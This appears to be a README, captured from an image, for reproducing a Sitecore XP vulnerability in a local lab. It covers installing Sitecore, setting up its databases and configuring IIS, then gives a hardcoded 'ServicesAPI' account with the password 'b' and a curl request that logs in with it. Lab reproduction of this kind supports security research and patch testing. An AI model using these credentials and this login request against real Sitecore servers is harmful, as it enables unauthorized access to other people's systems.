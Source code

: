4. **Install Microsoft Visual C++ Redistributable** (latest version)

### Step 3: Configure Sitecore Instance

1. **Extract Sitecore XP** to `C:\inetpub\wwwroot\sitecore`

2. **Create Sitecore Database**:
   ```sql
   -- Connect to SQL Server and run:
   CREATE DATABASE [Sitecore.Core]
   CREATE DATABASE [Sitecore.Master]
   CREATE DATABASE [Sitecore.Web]
   ```

3. **Configure Connection Strings** in `web.config`:
   ```xml
   <connectionStrings>
     <add name="core" connectionString="Server=localhost;Database=Sitecore.Core;Integrated Security=true;" />
     <add name="master" connectionString="Server=localhost;Database=Sitecore.Master;Integrated Security=true;" />
     <add name="web" connectionString="Server=localhost;Database=Sitecore.Web;Integrated Security=true;" />
   </connectionStrings>
   ```

4. **Configure IIS**:
   - Create new Application Pool: `SitecorePool` (.NET Framework 4.8, Integrated mode)
   - Create new Website pointing to `C:\inetpub\wwwroot\sitecore`
   - Set Application Pool to `SitecorePool`

### Step 4: Verify ServicesAPI Account

The hardcoded ServicesAPI account should be automatically created during Sitecore installation. To verify:

1. **Check Sitecore User Manager**:
   - Navigate to `/sitecore/admin/users.aspx`
   - Look for user: `sitecore\ServicesAPI`
   - Password should be: `b`

2. **Verify via Database** (if needed):
   ```sql
   USE [Sitecore.Core]
   SELECT * FROM [aspnet_Users] WHERE UserName = 'ServicesAPI'
   ```

### Step 5: Test the Vulnerability

1. **Start Sitecore Instance**:
   - Ensure IIS is running
   - Navigate to `http://localhost/sitecore`

2. **Test Authentication**:
   ```bash
   curl -X POST http://localhost/sitecore/api/ssc/auth/login \
     -H "Content-Type: application/json" \
     -H "X-Requested-With: XMLHttpRequest" \
     -d '{"domain":"sitecore","username":"ServicesAPI","password":"b"}'
   ```
